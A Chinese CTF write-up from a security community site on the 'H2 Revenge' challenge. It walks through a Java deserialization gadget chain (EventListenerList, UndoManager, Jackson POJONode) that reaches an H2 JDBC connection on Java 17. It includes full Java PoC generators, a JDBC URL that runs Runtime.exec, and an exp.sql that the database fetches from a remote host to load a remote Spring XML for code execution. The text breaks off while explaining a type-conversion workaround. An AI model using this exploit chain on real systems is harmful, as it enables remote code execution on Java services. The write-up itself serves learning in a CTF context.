# 深入解析：高版本 JRE 下 H2 RCE 绕过新思路-先知社区

> **来源**: https://xz.aliyun.com/news/17428  
> **文章ID**: 17428

---

# 深入解析：高版本 JRE 下 H2 RCE 绕过新思路

## 前言

h2rce 在 jdk 版本下是非常好利用的，但是如果在 JRE 而且还是在 17 环境下，又该如何利用呢，这次通过 H2 Revenge 好好的学习了一下，非常有意思，下面是详细分析和POC

## 源码分析

首先第一步就是查看一些依赖了

查看到了版本是 17

```
Manifest-Version: 1.0
Created-By: Maven JAR Plugin 3.4.2
Build-Jdk-Spec: 17
Implementation-Title: H2Revenge
Implementation-Version: 0.0.1
Main-Class: org.springframework.boot.loader.launch.JarLauncher
Start-Class: challenge.H2RevengeApplication
Spring-Boot-Version: 3.4.3
Spring-Boot-Classes: BOOT-INF/classes/
Spring-Boot-Lib: BOOT-INF/lib/
Spring-Boot-Classpath-Index: BOOT-INF/classpath.idx
Spring-Boot-Layers-Index: BOOT-INF/layers.idx


```

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>3.4.3</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>challenge</groupId>
    <artifactId>H2Revenge</artifactId>
    <version>0.0.1</version>
    <properties>
        <java.version>17</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <version>2.3.232</version>
        </dependency>
    </dependencies>
    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>
</project>

```

可以看到有 h2 的依赖，其实大概率猜测到是打 JDBC 了

我们的路由

```
package challenge;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: H2Revenge.jar:BOOT-INF/classes/challenge/IndexController.class */
public class IndexController {
    @RequestMapping({"/"})
    public String index() {
        return "H2 Revenge";
    }

    @PostMapping({"/deserialize"})
    public String deserialize(@RequestParam String data) throws Exception {
        byte[] buffer = Base64.getDecoder().decode(data);
        ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(buffer));
        try {
            input.readObject();
            input.close();
            return "ok";
        } catch (Throwable th) {
            try {
                input.close();
            } catch (Throwable th2) {
                th.addSuppressed(th2);
            }
            throw th;
        }
    }
}
```

很基础的一个反序列化路由，没有任何的过滤  
MyDataSource 应该是用来触发 h2 的 sink 点的

```
package challenge;

import java.io.PrintWriter;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;
import javax.sql.DataSource;

/* loaded from: H2Revenge.jar:BOOT-INF/classes/challenge/MyDataSource.class */
public class MyDataSource implements DataSource, Serializable {
    private String url;
    private String username;
    private String password;

    public MyDataSource(String url, String username, String password) {
        this.url = url;
        this.username = username;
        this.password = password;
    }

    @Override // javax.sql.DataSource
    public Connection getConnection() throws SQLException {
        return DriverManager.getConnection(this.url, this.username, this.password);
    }

    @Override // javax.sql.DataSource
    public Connection getConnection(String username, String password) throws SQLException {
        return DriverManager.getConnection(this.url, username, password);
    }

    @Override // javax.sql.CommonDataSource
    public PrintWriter getLogWriter() throws SQLException {
        return null;
    }

    @Override // javax.sql.CommonDataSource
    public void setLogWriter(PrintWriter out) throws SQLException {
    }

    @Override // javax.sql.CommonDataSource
    public void setLoginTimeout(int seconds) throws SQLException {
    }

    @Override // javax.sql.CommonDataSource
    public int getLoginTimeout() throws SQLException {
        return 0;
    }

    @Override // java.sql.Wrapper
    public <T> T unwrap(Class<T> iface) throws SQLException {
        return null;
    }

    @Override // java.sql.Wrapper
    public boolean isWrapperFor(Class<?> iface) throws SQLException {
        return false;
    }

    @Override // javax.sql.CommonDataSource
    public Logger getParentLogger() throws SQLFeatureNotSupportedException {
        return null;
    }
}
```

查看我们的 lib



调用链其实就大概出来了

如何调用 getter 方法

这个依赖大概是 jackson 的原生反序列化调用 getter

## payload 构造

给出我们的 payload，简单调试分析一下代码

```
package challenge;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;
import java.util.Vector;

import com.fasterxml.jackson.databind.node.POJONode;
import javassist.*;
import sun.misc.Unsafe;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;


public class Test {

    public static void main(String[] args) throws Exception {
        Field theUafeField= Unsafe.class.getDeclaredField("theUnsafe");
        theUafeField.setAccessible(true);
        Unsafe unsafe= (Unsafe) theUafeField.get(null);
        Module baseModule=Object.class.getModule();
        Class<?> currentClass= Test.class;
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(currentClass,addr,baseModule);
        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +
                "INFORMATION_SCHEMA.TABLES AS $$ void Unam4exp() throws Exception{ Runtime.getRuntime().exec("calc")\;}$$";
        MyDataSource myDataSource=new MyDataSource(url,"a" ,"a" );
        POJONode pojoNode = new POJONode(myDataSource);

        //EventListenerList --> UndoManager#toString() -->Vector#toString() --> POJONode#toString()
        EventListenerList list = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(pojoNode);
        setFieldValue(list, "listenerList", new Object[] { Map.class, manager });

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(list);
        String ser = Base64.getEncoder()
                .encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(ser);
        byte[] decode = Base64.getDecoder().decode(ser);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        baos.write(decode);

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(
                baos.toByteArray()));
        objectInputStream.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value)
            throws Exception {
        Class<?> clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getFieldValue(Object obj, String fieldName)
            throws NoSuchFieldException, IllegalAccessException {
        Class clazz = obj.getClass();

        while (clazz != null) {
            try {
                Field field = clazz.getDeclaredField(fieldName);
                field.setAccessible(true);

                return field.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }

        return null;
    }
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

我们的调用栈

```
getConnection:26, MyDataSource (challenge)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect) [2]
invoke:77, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:568, Method (java.lang.reflect)
serializeAsField:688, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:770, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:184, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1184, SerializerProvider (com.fasterxml.jackson.databind)
serialize:117, POJONode (com.fasterxml.jackson.databind.node)
_serializeNonRecursive:105, InternalNodeMapper$WrapperForSerializer (com.fasterxml.jackson.databind.node)
serialize:85, InternalNodeMapper$WrapperForSerializer (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:502, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:341, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1587, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1289, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1140, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:34, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:129, BaseJsonNode (com.fasterxml.jackson.databind.node)
valueOf:4222, String (java.lang)
append:173, StringBuilder (java.lang)
toString:457, AbstractCollection (java.util)
toString:1083, Vector (java.util)
stringOf:453, StringConcatHelper (java.lang)
invokeStatic:-1, DirectMethodHandle$Holder (java.lang.invoke)
invoke:-1, LambdaForm$MH/0x0000026ebc015000 (java.lang.invoke)
linkToTargetMethod:-1, LambdaForm$MH/0x0000026ebc015800 (java.lang.invoke)
toString:266, CompoundEdit (javax.swing.undo)
toString:695, UndoManager (javax.swing.undo)
stringOf:453, StringConcatHelper (java.lang)
invokeStatic:-1, DirectMethodHandle$Holder (java.lang.invoke)
invoke:-1, LambdaForm$MH/0x0000026ebc00f800 (java.lang.invoke)
linkToTargetMethod:-1, Invokers$Holder (java.lang.invoke)
add:213, EventListenerList (javax.swing.event)
readObject:309, EventListenerList (javax.swing.event)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect) [1]
invoke:77, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:568, Method (java.lang.reflect)
invokeReadObject:1104, ObjectStreamClass (java.io)
readSerialData:2434, ObjectInputStream (java.io)
readOrdinaryObject:2268, ObjectInputStream (java.io)
readObject0:1744, ObjectInputStream (java.io)
readObject:514, ObjectInputStream (java.io)
readObject:472, ObjectInputStream (java.io)
main:53, Test (challenge)
```

首先来到  
readObject:309, EventListenerList (javax.swing.event)

```
private void readObject(ObjectInputStream s)
    throws IOException, ClassNotFoundException {
    listenerList = NULL_ARRAY;
    s.defaultReadObject();
    Object listenerTypeOrNull;

    while (null != (listenerTypeOrNull = s.readObject())) {
        ClassLoader cl = Thread.currentThread().getContextClassLoader();
        EventListener l = (EventListener)s.readObject();
        String name = (String) listenerTypeOrNull;
        ReflectUtil.checkPackageAccess(name);
        @SuppressWarnings("unchecked")
        Class<EventListener> tmp = (Class<EventListener>)Class.forName(name, true, cl);
        add(tmp, l);
    }
}
```



根据 add 方法

```
public synchronized <T extends EventListener> void add(Class<T> t, T l) {
    if (l==null) {
        // In an ideal world, we would do an assertion here
        // to help developers know they are probably doing
        // something wrong
        return;
    }
    if (!t.isInstance(l)) {
        throw new IllegalArgumentException("Listener " + l +
                                     " is not of type " + t);
    }
    if (listenerList == NULL_ARRAY) {
        // if this is the first listener added,
        // initialize the lists
        listenerList = new Object[] { t, l };
    } else {
        // Otherwise copy the array and add the new listener
        int i = listenerList.length;
        Object[] tmp = new Object[i+2];
        System.arraycopy(listenerList, 0, tmp, 0, i);

        tmp[i] = t;
        tmp[i+1] = l;

        listenerList = tmp;
    }
}
```

很明显会调用 l 也就是 toString:695, UndoManager (javax.swing.undo)

```
public String toString() {
    return super.toString() + " limit: " + limit +
        " indexOfNextAdd: " + indexOfNextAdd;
}
```

调用父类的 tosring 方法

一直调用父类的方法

```
public String toString() {
    Iterator<E> it = iterator();
    if (! it.hasNext())
        return "[]";

    StringBuilder sb = new StringBuilder();
    sb.append('[');
    for (;;) {
        E e = it.next();
        sb.append(e == this ? "(this Collection)" : e);
        if (! it.hasNext())
            return sb.append(']').toString();
        sb.append(',').append(' ');
    }
}
```



作为拼接触发 tostring、这里会调用父类的方法

```
public String toString() {
    return InternalNodeMapper.nodeToString(this);
}
```

然后调用 nodeToString

```
public static String nodeToString(BaseJsonNode n) {
    try {
        return STD_WRITER.writeValueAsString(_wrapper(n));
    } catch (IOException var2) {
        throw new RuntimeException(var2);
    }
}
```

具体的逻辑就是在 writeValueAsString 中  
之后便来到了调用 getter 的逻辑

我们放入了我们的 datasource 参数，所以会调用到它的 getter 方法

```
public Connection getConnection(String username, String password) throws SQLException {
    return DriverManager.getConnection(this.url, username, password);
}
```

输入我们的 url 参数调用到重载的 getConnection

```
public Connection getConnection() throws SQLException {
    return DriverManager.getConnection(this.url, this.username, this.password);
}
```

进行了 JDBC 的操作

因为我们打的是 jdk17,所以理所应当弹出计算器



但是题目环境是在 docker 中，使用的是 jre，利用方法有所不同

### JRE 环境下的 h2rce

首先 jre 的区别就是没有 javac 命令了  
没有 javac 命令那么如何破局呢？

参考<https://exp10it.io/2025/03/nctf-2024-web-writeup/>



可以看到虽然没有了 javac，但是任然支持调用 java 的静态方法

#### 寻找静态类

这里的思路就是反射构造 ClassPathXmlApplicationContext 对象，因为这个对象在实例化的时候可以加载一个 xml 文件，而且题目出网，加载 xml 文件可以造成 rce

不过在知道这个方法前，我们看看 ReflectUtils 类

毕竟静态方法能够利用的虽然有，但是并没有我们调用方法方便，不过 ReflectUtils 类倒是有很多利用点



有非常多的方法

而且我们随便点击查看  


都是 static 方法，简直就是我们的梦中情类

而这个方法恰好可以反射调用我们指定类的方法或者实例化指定类

```
public static Object newInstance(Class type) {
    return newInstance(type, Constants.EMPTY_CLASS_ARRAY, (Object[])null);
}

public static Object newInstance(Class type, Class[] parameterTypes, Object[] args) {
    return newInstance(getConstructor(type, parameterTypes), args);
}

public static Object newInstance(final Constructor cstruct, final Object[] args) {
    boolean flag = cstruct.isAccessible();

    Object var4;
    try {
        if (!flag) {
            cstruct.setAccessible(true);
        }

        Object result = cstruct.newInstance(args);
        var4 = result;
    } catch (IllegalAccessException | InstantiationException var9) {
        throw new CodeGenerationException(var9);
    } catch (InvocationTargetException var10) {
        throw new CodeGenerationException(var10.getTargetException());
    } finally {
        if (!flag) {
            cstruct.setAccessible(flag);
        }

    }

    return var4;
}
```

所以我们就可以利用这个类

不想搭建 docker 环境了，偷个懒，直接在 windows 上调试了，放在达到只利用静态方法能够 rce 就 ok

首先编写我们的 exp.sql

```
CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)';
CREATE ALIAS NEW_INSTANCE FOR 'org.springframework.cglib.core.ReflectUtils.newInstance(java.lang.Class, java.lang.Class[], java.lang.Object[])';

SET @url_str='http://127.0.0.1:8111/evil.xml';
SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext');
SET @string_clazz=CLASS_FOR_NAME('java.lang.String');

CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_str]);
```

POC

```
package challenge;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;
import java.util.Vector;

import com.fasterxml.jackson.databind.node.POJONode;
import javassist.*;
import sun.misc.Unsafe;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;


public class Test {

    public static void main(String[] args) throws Exception {
        Field theUafeField= Unsafe.class.getDeclaredField("theUnsafe");
        theUafeField.setAccessible(true);
        Unsafe unsafe= (Unsafe) theUafeField.get(null);
        Module baseModule=Object.class.getModule();
        Class<?> currentClass= Test.class;
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(currentClass,addr,baseModule);
        String url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/exp.sql'";
        MyDataSource myDataSource=new MyDataSource(url,"a" ,"a" );
        POJONode pojoNode = new POJONode(myDataSource);

        //EventListenerList --> UndoManager#toString() -->Vector#toString() --> POJONode#toString()
        EventListenerList list = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(pojoNode);
        setFieldValue(list, "listenerList", new Object[] { Map.class, manager });

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(list);
        String ser = Base64.getEncoder()
                .encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(ser);
        byte[] decode = Base64.getDecoder().decode(ser);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        baos.write(decode);

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(
                baos.toByteArray()));
        objectInputStream.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value)
            throws Exception {
        Class<?> clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getFieldValue(Object obj, String fieldName)
            throws NoSuchFieldException, IllegalAccessException {
        Class clazz = obj.getClass();

        while (clazz != null) {
            try {
                Field field = clazz.getDeclaredField(fieldName);
                field.setAccessible(true);

                return field.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }

        return null;
    }
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```



但是报错了

```
Exception in thread "main" java.lang.RuntimeException: com.fasterxml.jackson.databind.JsonMappingException: Data conversion error converting "CHARACTER VARYING to JAVA_OBJECT"; SQL statement:


CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_str]) [22018-232] (through reference chain: challenge.MyDataSource["connection"])
```

#### 绕过转换报错

X1r0z 师傅解决这个问题的也是很巧妙的

H2 不支持 JAVA\_OBJECT 与 VARCHAR (CHARACTER VARYING) 类型之间的转换

